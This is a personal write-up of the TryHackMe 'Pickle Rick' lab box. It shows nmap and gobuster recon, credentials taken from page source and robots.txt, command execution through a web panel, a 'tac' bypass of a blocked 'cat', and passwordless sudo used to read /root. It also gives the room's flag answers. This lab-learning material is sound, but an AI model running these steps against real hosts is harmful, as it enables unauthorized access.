 ```yaml
---
title: TryHackMe - Pickle Rick
description: My writeup on Pickle Rick box.
categories:
 - tryhackme
tags: tryhackme
---
```


![](https://i.imgur.com/851RMUk.png)

## Box Stats

| Box Info      | Details       |
| ------------- |:-------------:|
| Box Name :    | **Pickle Rick**  |
| Difficulty :  | **Easy**             |
| Play :    | [Pickle Rick](https://tryhackme.com/room/picklerick){:target="_blank"}      |
| Recommended : | Yes :heavy_check_mark:      |

## Summary

Happy new year everyone! First writeup of the year, let's start!

## Enumeration/Reconnaissance

Now as always let’s continue with a nmap scan.

```
$ ip=10.10.200.154
$ nmap -sC -sV -oN nmap/picklerick.thm $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-02 19:59 EET
Nmap scan report for 10.10.200.154 (10.10.200.154)
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 21:c1:3b:8c:51:40:61:bc:87:00:75:e6:31:85:1c:40 (RSA)
|   256 44:78:2f:5e:8b:d6:61:1f:d2:f3:31:bb:7c:a8:01:8b (ECDSA)
|_  256 53:e2:38:b6:83:25:7a:ae:47:3e:05:84:e9:5c:5c:10 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
```

Once we visit the website we can see a message that tells us to login into his computer and search for the last three secret ingredients for his pickle-reverse potion. Alright, checking the source code i found a username let's note it down `R1ckRul3s`:

```
$ curl -s http://$ip/               

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Let's fire up a `gobuster` scan now.

```
$ gobuster dir -q -u http://$ip/ -w $medium -x php,txt,html,js -o scans/gobuster.txt  
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/robots.txt (Status: 200)
```

We have a login page awesome, checking the robots.txt i noticed a weird text message tried as password & i got in! `R1ckRul3:Wubbalubbadubdub`

Now we have access to a command panel and we can execute system commands:

![](https://i.imgur.com/wCVazqw.png)

## What is the first ingredient Rick needs?

Running `ls` we can see a file named `Sup3rS3cretPickl3Ingred.txt` we can read it from browser since we're under `/var/www/html`

```
$ curl -s http://$ip/Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

## Whats the second ingredient Rick needs?

Searching around, i found under `/home/rick` the second ingredient. I tried to used `cat` on it but i got an error:

![](https://i.imgur.com/hnpQ8vr.png)

We can't use `cat` its disabled, but we can use lot of other methods. Like `nl` - `less` - `tac`

```
$ tac /home/rick/second\ ingredients
1 jerry tear
```

## Whats the final ingredient Rick needs?

Checking around for privesc, `sudo -l` says we can run all commands without entering a password.

```
Matching Defaults entries for www-data on ip-10-10-200-154.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-200-154.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

So let's read the final ingredient.

```
$ sudo ls /root
3rd.txt
snap

$ sudo tac /root/3rd.txt
3rd ingredients: fleeb juice
```

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"}

Until next time keep pwning hard! :fire:
